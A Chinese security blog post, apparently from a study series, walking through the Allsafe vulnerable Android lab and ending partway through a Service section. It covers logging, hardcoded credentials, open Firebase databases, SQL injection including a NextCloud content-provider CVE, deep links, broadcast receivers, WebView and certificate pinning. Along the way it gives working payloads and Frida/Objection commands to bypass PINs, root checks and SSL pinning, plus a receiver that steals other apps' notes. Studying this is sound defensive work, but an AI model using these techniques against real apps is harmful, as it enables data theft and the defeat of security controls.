# 通过漏洞靶场学习Android应用安全-先知社区

> **来源**: https://xz.aliyun.com/news/16361  
> **文章ID**: 16361

---

最近学完了《第一行代码：Android》和《Android应用安全实战：Frida协议分析》，算是简单了解了Android开发和基本的逆向分析、Hook等。但对于Android应用安全，App漏洞挖掘方面的学习还是有点迷茫，比起大量的理论知识，个人还是喜欢直接动手实践，所以收集了很多Android应用漏洞靶场，边实践边补足Android安全相关的知识和技能。这些靶场其实也有公开WriteUp，不过很多原理讲解比较含糊，我觉得作为入门的学习材料，还是很有必要深入分析，并且去思考这些安全风险背后的实际利用场景以及新版本Android系统下这些风险的变化。

## 测试环境

ARM版MacBook和Android Studio自带的虚拟机作为测试环境，镜像我使用的是Android 14.0 (Default Android System Image)，不带Google Play的镜像可以直接获得Root权限，也可以正常使用Frida：





## Allsafe

<https://github.com/t0thkr1s/allsafe>

### Insecure Logging

> This challange is intended to be solved without decompiling the application. The goal is get the flag from the logs.

开发中经常会使用日志输出来跟踪调试代码，有时可能会输出敏感数据，通过adb logcat即可查看日志：

```
adb logcat --pid=$(adb shell pidof infosecadventures.allsafe)

```

靶场将用户输入的secret输出到了日志中：





实际案例是BitCoin Wallet在日志中输出了OAuth响应： <https://hackerone.com/reports/5314> ，并且系统上的其他应用可以读取到。但是只有Android 4.1之前可以通过申请READ\_LOGS权限读取，现在尝试声明该权限会提示如下：



个人理解谷歌意识到了允许应用读取其他应用日志信息是存在很大安全风险的，后续对相关权限进行了调整，所以目前这类风险大大降低。

### Hardcoded Credentials

> I assume you have some familiarity with reverse engineering Android applications. There are 2 hardcoded username:password combination on this fragment. Your task is to access them. Good luck!

首先使用jadx-gui逆向APK，然后根据Fragment名可以轻易找到对应代码：



这是一段发起POST请求的代码，关键代码如下：

```
Request req = builder.url(string).post(body).build();

```

请求地址来自`R.string.dev_env`，请求内容为当前类的`BODY`字段，而这两者都包含硬编码的账号密码：




现实中的案例也都很简单，都是把各种密钥、凭据等硬编码在了应用中： <https://hackerone.com/reports/246995> 、 <https://hackerone.com/reports/412772> 、 <https://hackerone.com/reports/351555>

其实在Web开发中，前端硬编码AK SK、API KEY，后端硬编码账号密码等凭据的情况都很常见，对应到Android安全，也只是把这种问题换了一个端。

### Firebase Database

> In this task, the application is getting data from a realtime database. It's all nice and good but I have a feeling the developers didn't set the correct rules for production.

#### Firebase Realtime Database介绍

Firebase Realtime Database 是一种托管在云端的数据库，数据以 JSON 格式存储并实时同步到所连接的每个客户端。这也是移动端常用的一种数据库。

可以参照官方文档接入：<https://firebase.google.com/docs/database/android/start> ，基本是引入的各种依赖，配置的话只下载了一个专属配置文件google-services.json放到了项目根目录：



写入和监听数据的代码如下：

```
FirebaseDatabase database = FirebaseDatabase.getInstance();
DatabaseReference myRef = database.getReference("message");

// Write a message to the database
myRef.setValue("Hello, World!");

// Read from the database
myRef.addValueEventListener(new ValueEventListener() {
    @Override
    public void onDataChange(@NonNull DataSnapshot dataSnapshot) {
        // This method is called once with the initial value and again
        // whenever data at this location is updated.
        String value = dataSnapshot.getValue(String.class);
        Log.d(TAG, "Value is: " + value);
    }

    @Override
    public void onCancelled(@NonNull DatabaseError error) {
        // Failed to read value
        Log.w(TAG, "Failed to read value.", error.toException());
    }
});

```

写入后在控制台也可以看到该条数据：



当前的Firebase Security Rules我选择的是测试模式，在指定时间前允许任何人读取和写入：



参考 <https://firebase.google.com/docs/database/rest/start> ，我们也可以直接通过HTTP请求读取和写入数据：

```
curl 'https://fir-xxxxx-default-rtdb.firebaseio.com/.json?print=pretty'
curl -X PUT -d '"content"' 'https://fir-xxxxx-default-rtdb.firebaseio.com/test.json?print=pretty'

```



#### Firebase Realtime Database使用风险

从该数据库的使用上来看，可能存在的风险便是开发者没有正确配置Firebase Security Rules，导致数据库可被公共读写。

我逆向自己项目编译出的APK后尝试查找该数据库URL：



发现数据库URL结构如下：

```
databaseUrl = "https://" + app.getOptions().getProjectId() + "-default-rtdb.firebaseio.com";

```

ProjectId则可以在字符串资源中找到：



对于靶场APK，可以在字符串资源中直接找到数据库URL：



该数据库存在公共读问题：


实际案例如下：

<https://medium.com/@fs0c131y/how-i-found-the-database-of-the-donald-daters-app-af88b06e39ad>

<https://blog.securitybreached.org/2020/02/04/exploiting-insecure-firebase-database-bugbounty/>

<https://hackerone.com/reports/731724>

<https://hackerone.com/reports/1065134>

### Insecure Shared Preferences

> Shared preferences are, by default, stored within the app's data directory with filesystem permissions set that only allow the UID that the specific application runs with to access them. Also, if someone was able to mount your device's filesystem without using the installed Android OS, they could also bypass the permissions that restrict access.

#### SharedPreferences介绍

Android中的数据持久化存储有多种方案：SharedPreferences、文件存储、SQLite数据库等，其中SharedPreferences适用于存储少量键值对数据，参考 <https://developer.android.com/training/data-storage/shared-preferences> 使用SharedPreferences读写数据的代码如下：

```
SharedPreferences sharedPref = this.getSharedPreferences("test", Context.MODE_PRIVATE);
SharedPreferences.Editor editor = sharedPref.edit();
editor.putString("name","leixiao");
editor.apply();

Log.d(TAG,sharedPref.getString("name","null"));

```

数据会以XML文件形式存储在`/data/data/<package_name>/shared_prefs`目录 (需要Root权限查看)：



#### SharedPreferences风险

在获取SharedPreferences对象时可以指定模式，当指定为MODE\_WORLD\_READABLE和MODE\_WORLD\_WRITEABLE时，其他应用可以对其数据进行读写，将会造成信息泄露和伪造，这两种模式已经在Android 4.2废弃：



不过就算无法被其他应用直接读取，也应该避免将密码等敏感信息直接存储于SharedPreferences。靶场APK对应代码如下：



使用的是MODE\_PRIVATE(0)模式，但是将密码进行了明文存储。

### SQL Injection

> This task can be easily completed without reverse enigneering the app. The goal is to bypass the following login page by exploiting a simple SQL injection vulnerability.

#### 靶场漏洞

查看代码，发现是使用原始SQL语句对SQLite数据库进行操作，用户的输入被直接拼接到了语句中：



很典型的SQL注入漏洞，用户名填`' or true or '`，密码随意，即可查询出所有用户数据。

从安卓官方示例 <https://developer.android.com/training/data-storage/sqlite> 中可以看到推荐写法都是采用了参数化或者ORM框架，一般正常使用都不会产生SQL注入问题。

#### NextCloud Android App Content Provider SQL注入(CVE-2019-5454)分析与修复绕过

案例来自：<https://hackerone.com/reports/291764>

NextCloud App 漏洞版本下载：<https://download.nextcloud.com/android/nextcloud-20000199.apk>

##### Drozer基本使用

参考 <https://labs.withsecure.com/tools/drozer> 安装Drozer，并扫描Content Provider中的注入：

```
drozer console connect
run scanner.provider.injection -a com.nextcloud.client

```



可以看到在content://org.nextcloud/中，Projection和Selection都存在注入漏洞。（Projection用于指定返回哪些列，Selection用于指定筛选条件）

##### Content Provider介绍

Content Provider是Android 四大组件之一，简单来说就是可以在自己应用中实现Content Provider以允许其他应用读取和修改自己应用中的数据：



示例ContentProvider代码如下：

```
public class MyContentProvider extends ContentProvider {
    private String authority = "com.example.demo.provider";
    private MySQLiteOpenHelper mySQLiteOpenHelper;
    private UriMatcher uriMatcher = new UriMatcher(UriMatcher.NO_MATCH);

    public boolean onCreate() {
        mySQLiteOpenHelper = new MySQLiteOpenHelper(this.getContext(), "test.db", null, 1);
        uriMatcher.addURI(authority, "user", 0);
        return true;
    }

    public Cursor query(@NonNull Uri uri, @Nullable String[] projection, @Nullable String selection, @Nullable String[] selectionArgs, @Nullable String sortOrder) {
        switch(uriMatcher.match(uri))
        {
            case 0:
                return mySQLiteOpenHelper.getReadableDatabase().query("user",projection,selection,selectionArgs,null,null,null);
        }
        return null;
    }
    ...
}

class MySQLiteOpenHelper extends SQLiteOpenHelper{
    public void onCreate(SQLiteDatabase db) {
        db.execSQL("create table user (id integer primary key autoincrement, name text, pass text);");
        db.execSQL("insert into user (name, pass) values ('user1', 'test');");
        db.execSQL("insert into user (name, pass) values ('user2', 'test');");
    }
    ...
}

```

然后需要在AndroidManifest.xml注册：

```
<provider
    android:name=".MyContentProvider"
    android:authorities="com.example.demo.provider"
    android:enabled="true"
    android:exported="true" />

```

在其他应用中相应的读取数据的代码为：

```
ContentResolver resolver = this.getContentResolver();
Cursor cursor = resolver.query(
        Uri.parse("content://com.example.demo.provider/user"),
        new String[]{"id","name"},  //Projection
        "id = ?",                                       //Selection
        new String[]{"2"},
        null
);

```

##### 漏洞分析与修复绕过

回到NextCloud中来，通过AndroidManifest.xml文件可知对应的代码在com.owncloud.android.providers.FileContentProvider





FileContentProvider的query中对于传入的projection和selection会直接进入最终的查询操作：





而按照这里的代码逻辑Projection和Selection其实是会直接拼接到最终的SQL语句的，所以就造成了SQL注入。

可以继续用Drozer注入获取其他数据：

```
run app.provider.query content://org.nextcloud/ --projection "name FROM SQLITE_MASTER WHERE type='table';-- "

```



NextCloud修复方式：<https://github.com/nextcloud/android/pull/1820/files>


当`mUriMatcher.match(uri) == ROOT_DIRECTORY`时使用SQLiteQueryBuilder.setProjectionMap()，其实就相当于给Projection的可选值设置了白名单。当`selectionArgs`为null时，直接让Selection为`(?)`。但其实这两处的修复都不严谨，都可以绕过。

下载离漏洞版本最近的一次修复版：<https://download.nextcloud.com/android/nextcloud-30000001.apk>

可见已经不能随意输入Projection了：



但更改一下URI便可以绕过：



### PIN Bypass

> As you can see, there's a simple PIN code validation below. Locate the method in the code and use Frida to override the return value. You can even brute-force the code because it's only 4 digit.

一般可以根据错误提示来定位代码位置：







Hook`checkPin`方法即可，Frida代码如下：

```
Java.perform(() => {
    const PinBypass = Java.use("infosecadventures.allsafe.challenges.PinBypass");
    PinBypass.checkPin.implementation = () => {
        return true;
    }
});

// frida -U -f infosecadventures.allsafe -l pin_bypass.js

```

或者直接使用Objection：

```
objection -g infosecadventures.allsafe explore --startup-command "android hooking set return_value infosecadventures.allsafe.challenges.PinBypass.checkPin true"

```

### Root Detection

> In this case, we're using the RootBeer library to detect wether the device is rooted or not. Your task is to use Frida and bypass the root check. Good luck!



```
objection -g infosecadventures.allsafe explore --startup-command "android hooking set return_value com.scottyab.rootbeer.RootBeer.isRooted false"

```

### Deep Link Exploitation

> The challange here is simple. Find the deep link in the application and try to trigger it. You can do it with a HTML file pushed to the device or you can use the ADB tool. To make things a little bit harder, you have to provide a parameter to complete the task.

#### Deep Link介绍

根据[官方文档](https://developer.android.com/training/app-links)和[一些资料](https://www.justmobilesec.com/en/blog/deep-links-webviews-exploitations-part-II)可知，Deep Link就是通过特定链接可以让用户在浏览器或其他应用直接跳转到指定应用中的某一个页面的技术。

比如想要通过自定义URL跳转到MyActivity需要在AndroidManifest.xml进行如下配置：

```
<activity
    android:name=".MyActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data
            android:scheme="demo"/>
    </intent-filter>
</activity>

```

为了响应系统跳转的意图动作，Action需要指定为`android.intent.action.VIEW`；Category中添加了`android.intent.category.DEFAULT`来响应隐式意图（没有明确指定目标组件，而是通过动作和数据等信息来匹配组件），`android.intent.category.BROWSABLE`表示Activity可以从浏览器中启动；Data中的scheme必须指定，还可以指定host，path等。

这样便可以在浏览器网页中通过以下链接跳转到该Activity：

```
<a href="demo://anything/anything">test</a>

```

或者通过ADB跳转：

```
adb shell am start -W -a android.intent.action.VIEW -d "demo://anything/anything"

```

在系统通过intent filter启动指定 Activity 后，可以从Intent中获取数据：

```
@Override
protected void onCreate(Bundle savedInstanceState) {
    super.onCreate(savedInstanceState);
    setContentView(R.layout.activity_my);

    Intent intent = getIntent();
    String action = intent.getAction();
    Uri data = intent.getData();
    if(data!=null){
        String scheme = data.getScheme();
        String host = data.getHost();
        String path = data.getPath();
        String query = data.getQuery();
    }
}

```

#### Deep Link风险

我也看了很多相关资料，其实主要风险还是由于开发者没有对从Intent传来的数据做好校验就使用数据做进一步操作，导致可操纵WebView，数据泄露等问题。

靶场APK代码如下：







构造如下链接即可：

```
adb shell am start -W -a android.intent.action.VIEW -d "allsafe://infosecadventures/congrats?key=ebfb7ff0-b2f6-41c8-bef3-4fba17be410c"

```

实际案例有 Deep Link跳转然后直接follow指定用户的类似CSRF的问题：<https://hackerone.com/reports/583987> ； 控制Webview打开任意URL导致敏感信息泄漏的问题：<https://hackerone.com/reports/401793>

### Insecure Broadcast Receiver

> Our intern wrote a simple note taking feature into the app but the data processing logic seems weird. Gideon got some reports about critical vulnerabilities being exploited... As far as I know, hackers were able to capture the notes and exploit a permission re-delegation vulnerability. Can you check this madness out and maybe write a PoC for demonstration?

#### Broadcast Receiver介绍

Broadcast Receiver是Android四大组件之一，是一种广泛运用在应用程序之间传输信息的机制，通过发送Intent来传送我们的数据。应用可以注册接收特定的广播。广播发出后，系统会自动将广播传送给同意接收这种广播的应用。

通过继承BroadcastReceiver实现自己的广播接收器：

```
public class MyBroadcastReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        Log.d(TAG,intent.getAction());
        Toast.makeText(context,intent.getAction(),Toast.LENGTH_SHORT).show();
    }
}

```

注册广播接收器有两种方式：动态注册和静态注册。

动态注册即通过代码注册，当系统销毁相应上下文时，注册也会失效，例如在Activity上下文中注册，只要activity保持活跃状态，就会收到广播，注册代码如下：

```
public class MainActivity extends AppCompatActivity {
    private MyBroadcastReceiver myBroadcastReceiver;

    @SuppressLint("UnspecifiedRegisterReceiverFlag")
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        myBroadcastReceiver = new MyBroadcastReceiver();
        IntentFilter intentFilter = new IntentFilter();
        intentFilter.addAction(Intent.ACTION_BATTERY_CHANGED);
        registerReceiver(myBroadcastReceiver, intentFilter);
    }

    @Override
    protected void onPause() {
        super.onPause();
        unregisterReceiver(myBroadcastReceiver);
    }
}

```

静态注册需要在AndroidManifest.xml文件中配置，如果应用未运行，系统会在广播发出后启动应用（Android8.0之后静态注册无法接收隐式广播）：

```
<uses-permission android:name="android.permission.RECEIVE_BOOT_COMPLETED"/>

<receiver android:name=".MyBroadcastReceiver" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.BOOT_COMPLETED" />
    </intent-filter>
</receiver>

```

按发送顺序广播可以分为两类：

* 标准广播：sendBroadcast(Intent)，完全异步执行的广播，会按随机的顺序向所有接收器发送广播
* 有序广播：sendOrderedBroadcast(Intent, String)，一次向一个接收器发送广播，当接收器逐个顺序执行时，可以向下传递结果，也可以中止广播，可以通过intent-filter的android:priority属性控制接收器的顺序

#### Broadcast Receiver风险

先来看靶场APK：







注意其中的以下代码：

```
PackageManager packageManager = requireActivity().getPackageManager();
List<ResolveInfo> resolveInfos = packageManager.queryBroadcastReceivers(intent, 0);
for (ResolveInfo info : resolveInfos) {
    ComponentName cn = new ComponentName(info.activityInfo.packageName, info.activityInfo.name);
    intent.setComponent(cn);
    requireActivity().sendBroadcast(intent);
}

```

这段代码查找了能够接收特定Intent的Broadcast Receiver，然后显式地为广播指定这些Receiver，并逐个发送显式广播，并且靶场APK的AndroidManifest.xml文件中配置了以下权限：

```
<uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"/>

```

那么只要攻击者也注册满足条件的Broadcast Receiver，这段代码就会向攻击者发送广播，从而导致敏感数据泄漏，代码如下：

```
public class MyBroadcastReceiver extends BroadcastReceiver {
    @Override
    public void onReceive(Context context, Intent intent) {
        Log.d(TAG,intent.getAction());
        if(intent.getAction().equals("infosecadventures.allsafe.action.PROCESS_NOTE")){
            Log.d(TAG,intent.getStringExtra("note"));
        }
    }
}

```

```
<receiver android:name=".MyBroadcastReceiver" android:exported="true">
    <intent-filter>
        <action android:name="infosecadventures.allsafe.action.PROCESS_NOTE"/>
    </intent-filter>
</receiver>

```

另外靶场APK还有个问题就是任意应用可以向其发送广播，来伪造通知，代码如下（Android8.0之后静态注册无法接收隐式广播，所以这里只能发送显式广播）：

```
Intent intent = new Intent();
//intent.setAction("infosecadventures.allsafe.action.PROCESS_NOTE");
intent.putExtra("server", "prod.allsafe.infosecadventures.io");
intent.putExtra("note", "test");
intent.putExtra("notification_message", "Fake message");
ComponentName componentName = new ComponentName("infosecadventures.allsafe","infosecadventures.allsafe.challenges.NoteReceiver");
intent.setComponent(componentName);
sendBroadcast(intent);

```

不过注意需要在AndroidManifest.xml文件manifest标签中添加：

```
<uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"/>

```

或者：

```
<queries>
    <package android:name="infosecadventures.allsafe"/>
</queries>

```

类似的实际案例有：<https://hackerone.com/reports/289000> 、 <https://hackerone.com/reports/97295>

结合其他资料不难总结Broadcast Receiver的风险主要在于广播被其他应用获取导致的敏感信息泄漏，还有接收了其他应用的广播导致的权限绕过、消息伪造、拒绝服务等

### Vulnerable WebView

> This challange is intended to be solved without decompiling the application. The first task is show an alert dialog. For the second task, you have to access a local file (e.g. /etc/hosts) stored on the device.

#### WebView介绍

WebView是App中的一个核心组件，简单来说就是一个内置的浏览器，参考 <https://developer.android.com/develop/ui/views/layout/webapps/webview> 可以写一下WebView的Demo代码：

```
<uses-permission android:name="android.permission.INTERNET" />

```

```
class WebAppInterface {
    Context mContext;
    WebAppInterface(Context c) {
        mContext = c;
    }
    @JavascriptInterface
    public void showToast(String toast) {
        Toast.makeText(mContext, toast, Toast.LENGTH_SHORT).show();
    }
}

public class MainActivity extends AppCompatActivity {
    private MyBroadcastReceiver myBroadcastReceiver;

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);

        WebView myWebView = new WebView(this);
        setContentView(myWebView);
        WebSettings webSettings = myWebView.getSettings();

        //开启JavaScript支持
        webSettings.setJavaScriptEnabled(true);

        //允许读取本地文件，例如file:///etc/hosts
        webSettings.setAllowFileAccess(true);

        //将Android代码暴露给Javascript调用
        myWebView.addJavascriptInterface(new WebAppInterface(this), "Android");

        //shouldOverrideUrlLoading返回false，否则点击其他HTTP链接会默认由系统浏览器打开。这个函数中也可以做一些URL跳转的检测和拦截等
        myWebView.setWebViewClient(new WebViewClient(){
            @Override
            public boolean shouldOverrideUrlLoading(WebView view, WebResourceRequest request) {
                return false;
            }
        });

        //myWebView.loadUrl("https://www.baidu.com");
        //myWebView.loadUrl("file:///etc/hosts");
        myWebView.loadUrl("data:text/html,<button onclick=\"Android.showToast('test')\">showToast</button>");
    }
}

```

#### WebView风险

目前的WebView漏洞主要是由于URL校验不当，导致加载任意网页或者是调用一些特权接口，其具体风险在这篇文章中已经讲解的很详细了：<https://bbs.kanxue.com/thread-273867.htm>

看靶场APK，允许JavaScript也允许本地文件访问：



所以解题很简单：

```
<button onclick="alert(1)">alert</button>

```

```
file:///etc/hosts
```

### Certificate Pinning

> In this challange, your task is to intercept the traffic and bypass the certificate pinning. The implementation is fairly good, so you might have to use Frida or patch the APK.

#### SSL Pinning

HTTP是明文传输的协议，容易被窃听和篡改，或者说被中间人攻击（MITM），于是HTTP over SSL即HTTPS出现了。访问HTTPS网站时，服务端会提供自己的证书，客户端会进行验证，例如在浏览器中可以查看到以下证书链：



系统会内置一些CA证书，如上图的GlobalSign就在系统中，那么如浏览器这类客户端就会信任内置Root CA签发的二级Intermediate CA或者用户证书。这也是为什么使用BurpSuite抓HTTPS包的时候需要在系统导入BurpSuite的CA证书，如下图使用BurpSuite代理抓包时证书是由PortSwigger CA签发的：



综上，如果导入了其他根证书或者被信任的CA随意发布证书，那么SSL是无法保证安全的，而SSL Pinning本质就是为了对抗这种情况下的中间人攻击，实现原理是在应用程序中只信任固定证书或是公钥。

详细可参考： <https://shunix.com/ssl-pinning/> 、 <https://juejin.cn/post/7178044116364689465>

##### 在Android13中使用BurpSuite抓包

可以通过adb设置代理为BurpSuite监听地址：

```
adb shell settings put global http_proxy 192.168.64.1:65534
# adb shell settings put global http_proxy :0

```

然后用以下代码测试：

```
private void request(String url) throws IOException {
    OkHttpClient client = new OkHttpClient();
    Request request = new Request.Builder().url(url).build();
    client.newCall(request).enqueue(new Callback() {
        @Override
        public void onFailure(@NonNull Call call, @NonNull IOException e) {
            Log.d(TAG,e.toString());
        }
        @Override
        public void onResponse(@NonNull Call call, @NonNull Response response) throws IOException {
            Log.d(TAG,response.body().string());
        }
    });
}

request("http://example.com");
request("https://example.com");

```

其实就可以抓HTTP请求包了（Android 9.0以上需要在AndroidManifest.xml文件application标签添加android:usesCleartextTraffic="true"才能使用HTTP请求），如果需要抓HTTPS请求，那么还是需要导入BurpSuite的CA证书。

因为Android14证书策略有较大改变，所以我换了13的镜像来做抓包测试。首先使用openssl将BurpSuite的der格式CA证书转为pem格式，再转为${HASH}.0：

```
openssl x509 -inform DER -in cacert.der -out cacert.pem
HASH=`openssl x509 -subject_hash_old -in cacert.pem |head -1`
echo ${HASH}
cp cacert.pem "${HASH}.0"

```

我当前模拟器/system默认无法写也无法重新挂载，参考Android Studio的 [Start the emulator from the command line](https://developer.android.com/studio/run/emulator-commandline) 可以从命令行启动模拟器并创建可写系统映像（-writable-system会创建系统映像的临时副本）：

```
~/Library/Android/sdk/emulator/emulator -list-avds
~/Library/Android/sdk/emulator/emulator -avd  Medium_Phone_API_33 -writable-system -qt-hide-window

```

然后便可以重新挂载和写入证书：

```
adb root
adb remount
adb push "${HASH}.0" /system/etc/security/cacerts
adb unroot

```

从设置中也可以看到添加的系统证书：



这便可以抓HTTPS请求包了。

##### 使用OkHttp固定证书

OkHttp官方就有提供证书固定的方法： <https://square.github.io/okhttp/features/https/#certificate-pinning-kt-java>

测试代码如下：

```
private void request(boolean sslPinning) throws IOException {
    OkHttpClient client = null;
    if (sslPinning){
        client = new OkHttpClient.Builder().certificatePinner(
                new CertificatePinner.Builder()
                        .add("publicobject.com", "sha256/afwiKY3RxoMmLkuRW1l7QsPZTJPwDS2pdDROQjXw8ig=")
                        .build()
        ).build();
    }else {
        client = new OkHttpClient();
    }
    Request request = new Request.Builder().url("https://publicobject.com/robots.txt").build();
    client.newCall(request).enqueue(new Callback() {
        @Override
        public void onFailure(@NonNull Call call, @NonNull IOException e) {
            Log.d(TAG,e.toString());
        }
        @Override
        public void onResponse(@NonNull Call call, @NonNull Response response) throws IOException {
            Log.d(TAG,response.body().string());
        }
    });
}

request(false);
request(true);

```

会发现不固定证书时可以正常请求和抓包，固定证书后报错如下：

```
javax.net.ssl.SSLPeerUnverifiedException: Certificate pinning failure!
Peer certificate chain:
  sha256/uKNneHUC2ZanioF0Kt5SaBEjmW5eaQZOWzqLwE3q0oE=: CN=publicobject.com,OU=PortSwigger CA,O=PortSwigger,C=PortSwigger
  sha256/uKNneHUC2ZanioF0Kt5SaBEjmW5eaQZOWzqLwE3q0oE=: CN=PortSwigger CA,OU=PortSwigger CA,O=PortSwigger,L=PortSwigger,ST=PortSwigger,C=PortSwigger
Pinned certificates for publicobject.com:
  sha256/afwiKY3RxoMmLkuRW1l7QsPZTJPwDS2pdDROQjXw8ig=
```

##### 使用Android配置固定证书

参考 <https://developer.android.com/privacy-and-security/security-config?#CertificatePinning>

只需要添加如下配置：

res/xml/network\_security\_config.xml

```
<?xml version="1.0" encoding="utf-8"?>
<network-security-config>
    <base-config cleartextTrafficPermitted="true">
    <!-- 允许所有域名的http请求 -->
    </base-config>
    <domain-config>
        <domain includeSubdomains="true">example.com</domain>
        <pin-set expiration="2035-01-01">
            <pin digest="SHA-256">Wec45nQiFwKvHtuHxSAMGkt19k+uPSw9JlEkxhvYPHk=</pin>
            <!-- backup pin -->
            <pin digest="SHA-256">i7WTqTvh0OioIruIfFR4kMPnBqrS2rdiVPl/s2uC/CY=</pin>
        </pin-set>
    </domain-config>
</network-security-config>

```

然后在AndroidManifest.xml文件的application标签添加`android:networkSecurityConfig="@xml/network_security_config"`即可。

这个时候如果没有中间人将可以正常请求 <https://example.com/> ，代理到BurpSuite则会报错：

```
javax.net.ssl.SSLHandshakeException: Pin verification failed
```

#### 靶场SSL Pinning绕过

靶场APK其实是利用OkHttp证书固定功能验证失败时返回的证书链的正确的证书公钥Hash去做证书固定：





SSL Pinning绕过有通用的Frida脚本：<https://codeshare.frida.re/@pcipolloni/universal-android-ssl-pinning-bypass-with-frida/>

将BurpSuite的der格式CA证书转为crt格式，放到指定路径，然后运行这个脚本即可：

```
openssl x509 -inform der -in cacert.der -out cacert.crt
adb push cacert.crt /data/local/tmp/cert-der.crt
frida -U -f infosecadventures.allsafe --codeshare pcipolloni/universal-android-ssl-pinning-bypass-with-frida

```

不过因为每次请求都是动态去获取证书链公钥的Hash来做证书固定，而挂上BurpSuite代理后，请求网站的证书都由BurpSuite生成签发，然后BurpSuite的CA证书也添加到了系统，其签发的证书是受信任的，所以这里不需要绕过也能抓包（如果没有添加BurpSuite的CA证书，那么就需要使用这个方法了）。

除了使用上述Frida代码，Objection也封装了SSL Pinning绕过，可以直接使用：

```
objection -g infosecadventures.allsafe explore --startup-command "android sslpinning disable"

```

源码在：<https://github.com/sensepost/objection/blob/master/agent/src/android/pinning.ts>

和前者绕过方法不太一样，但本质原理都是利用Frida框架提供的功能，在 Java层进行代码注入和方法重写来干预应用原本的SSL相关操作逻辑。

最后一点：一般来说用了Objection这种工具的SSL Pinning绕过功能后，不需要再向系统导入抓包工具的CA证书，直接设置代理就可以抓包。

### Weak Cryptography

> Enter your deepest, darkest secret here and we'll encrypt it for you. By reverse engineering the code you'll find what you are looking for, but that's too easy and way too convenient. Let's use Frida and hook some methods that are used during encryption.

这节其实只是练习用Frida Hook加密函数，在《Android应用安全实战：Frida协议分析》第4章 算法“自吐”脚本开发 就有详细讲解——"只要把现行常用的密码学加密的通用方法进行Hook，就可以覆盖市面上大部分的Android应用了，配合堆栈打印后还能直接定位到加密点"。

可以直接找现有脚本：<https://codeshare.frida.re/@fadeevab/intercept-android-apk-crypto-operations/>

```
frida -U -f infosecadventures.allsafe --codeshare fadeevab/intercept-android-apk-crypto-operations

```

### Insecure Service

> The application needs the RECORD\_AUDIO permission for some reason. Find out why the app needs this and write a simple app to mis-use the functionality on this fragment.

#### Service介绍

Service是Android的四大组件之一，是实现程序后台运行的解决方案，适合执行不需要和用户交互而且还要求长期运行的任务，但Service并不是运行在一个独立的进程当中的，而是依赖于创建Service时所在的应用程序进程。而且Service并不会自动开启线程，所有的代码都是默认运行在主线程当中。示例代码：

```
public class MyService extends Service {
    //Service第一次创建的时候调用
    @Override
    public void onCreate() {
        Log.d(TAG,"onCreate");
    }

    //每次启动Service的时候都会调用
    @Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        Log.d(TAG,"onStartCommand");
        new Thread(() -> {
            for(int i=10; i>0; i--){
                Log.d(TAG, "run: "+ i);
                try {
                    Thread.sleep(1000);
                } catch (InterruptedException e) {
                    throw new RuntimeException(e);
                }
            }
            stopSelf();
        }).start();
        Log.d(TAG,"onStartCommand Done");
        return START_STICKY;
    }

    //销毁时调用
    @Override
    public void onDestroy() {
        Log.d(TAG,"onDestroy");
    }

    @Nullable
    @Override
    public IBinder onBind(Intent intent) {
        return null;
    }
}

```

另外还需要在AndroidManifest.xml文件注册，这是Android四大组件共有的特点：

```
<service
    android:name=".MyService"
    android:enabled="true"
    android:exported="false"/>

```

如果exported设置为true的话，外部其他应用也可以使用这个Service，但对方应用需要在AndroidManifest.xml进行声明，在manifest标签中添加：

```
<queries>
    <package android:name="com.example.demo"/>
</queries>

```

或者：

```
<uses-permission android:name="android.permission.QUERY_ALL_PACKAGES"/>

```

显式启停服务的代码如下：

```
public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        findViewById(R.id.start_button).setOnClickListener(v -> {
            startService(new Intent(getBaseContext(), MyService.class));
        });
        findViewById(R.id.stop_button).setOnClickListener(v -> {
            stopService(new Intent(getBaseContext(), MyService.class));
        });
    }
}

```

当通过`startService()`方法显式启动一个服务后，即使关闭了启动该服务的应用程序（比如用户按下 “返回” 键或者通过任务管理器关闭应用），服务通常会继续运行，除非被明确停止（调用`stopService()`方法或者在服务内部调用`stopSelf()`方法）。

`startService()`启动服务后，调用者（Activity）就和 Service 没有关联了，那如何在Activity中控制服务内的行为和获取一些数据呢，可以通过`bindService()` 方法绑定开启服务，示例Service代码如下：

```
public class DownloadService extends Service {
    private boolean isDownloading = false;
    private int progress = 0;
    private DownloadBinder downloadBinder = new DownloadBinder();

    public class DownloadBinder extends Binder {
        public void start(){
            if(isDownloading){
                return;
            }
            isDownloading = true;
            new Thread(() -> {
                for(int i=0; i<=100 && isDownloading; i+=10){
                    Log.d(TAG, "run: "+ i);
                    progress = i;
                    try {
                        Thread.sleep(1000);
                    } catch (InterruptedException e) {
                        throw new RuntimeException(e);
                    }
                }
                isDownloading = false;
            }).start();
        }

        public void stop(){
            isDownloading = false;
        }

        public int getProgress(){
            return progress;
        }
    }

    @Nullable
    @Override
    public IBinder onBind(Intent intent) {
        Log.d(TAG,"onBind");
        return downloadBinder;
    }
}

```

在AndroidManifest.xml中注册：

```
<service
    android:name=".DownloadService"
    android:enabled="true"
    android:exported="false"/>

```

Activity中代码如下：

```
public class MainActivity extends AppCompatActivity {
    private DownloadService.DownloadBinder downloadBinder;
    private ServiceConnection serviceConnection = new ServiceConnection() {
        @Override
        public void onServiceConnected(ComponentName name, IBinder service) {
            downloadBinder = (DownloadService.DownloadBinder) service;
        }

        @Override
        public void onServiceDisconnected(ComponentName name) {
        }
    };

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        bindService(new Intent(getBaseContext(), DownloadService.class),serviceConnection,BIND_AUTO_CREATE);

        findViewById(R.id.start_button).setOnClickListener(v -> {
            downloadBinder.start();
        });
        findViewById(R.id.stop_button).setOnClickListener(v -> {
            downloadBinder.stop();
        });
        findViewById(R.id.get_button).setOnClickListener(v -> {
            Log.d(TAG,"progress: "+downloadBinder.getProgress());
        });
    }

    @Override
    protected void onDestroy() {
